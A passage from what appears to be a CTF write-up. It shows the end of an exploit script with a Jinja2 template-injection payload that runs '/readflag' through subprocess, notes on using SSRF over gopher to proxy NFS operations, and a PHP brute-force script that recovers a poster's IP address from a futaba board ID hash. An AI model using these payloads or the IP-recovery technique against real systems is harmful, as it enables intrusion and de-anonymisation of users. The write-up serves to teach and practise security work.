 ```python=
{{  request['application']['__globals__']['__builtins__']['__import__']('subprocess').check_output('/readflag') }}
'''

url = "http://<YOUR_URL>/"
h = md5('1.3.3.7'.encode() + url.encode()).hexdigest()
path = f'/static/images/{h}.jpg'
print(path)
print(s.get(host + path).text)

r = s.post(host, data=dict(url=url))
print(r.text)
```

Notes:

1. The NFS server requires the src port of the TCP connection to [be less than 1024](https://www.spinics.net/lists/linux-nfs/msg32356.html). Otherwise it will give permission error. Fortunately we can use PyCurl's option `LOCALPORT` to do this.
2. Initially, we are trying to SSRF and replay the NFS packet, but the NFS protocol is so complicated (e.g. file handle), so we then work on how to estblish a proxy to perform NFS operations.
3. I'm not sure whether NFS V3 makes a difference here. We use `rpcinfo -p localhost` with the gopher proxy to determine if remote supports V3 or V4. It turns out both are supported.
4. Appending 2-byte garbage `xx`  in gopher is intentional. Otherwise the gopher will simply hang and not return.

### FBI WARNING

We find a very closed source code at [GitHub](https://github.com/hametsu/futaba). It seems like there are a lot of variation of this source code, but the core logic is the same.

Here is the source code of generating the unique id:

```php=
 $c_pass = $pwd;
  $pass = ($pwd) ? substr(md5($pwd),2,8) : "*";
  $youbi = array('日','月','火','水','木','金','土');
  $yd = $youbi[gmdate("w", $time+9*60*60)] ;
  $now = gmdate("y/m/d",$time+9*60*60)."(".(string)$yd.")".gmdate("H:i",$time+9*60*60);
  if(DISP_ID){
    if($email&&DISP_ID==1){
      $now .= " ID:???";
    }else{
      $now.=" ID:".substr(crypt(md5($_SERVER["REMOTE_ADDR"].IDSEED.gmdate("Ymd", $time+9*60*60)),'id'),-8);
    }
  }
```

With the hint that the IP starts with `219.`, we can brute-force the IP address.

```php=
<?php
for ($x = 0; $x <= 255; $x++) {
  for ($y = 0; $y <= 255; $y++) {
    for ($s = 0; $s <= 255; $s++) {
        $IP = '219.'.$s.".".$x.".".$y;
        if (substr(crypt(md5($IP.'idの種20211203'),'id'), -8) == 'ueyUrcwA'){
          echo 'boooom!!!!! '.$IP;
          die();
        }
      }
    }
  }
?>
```
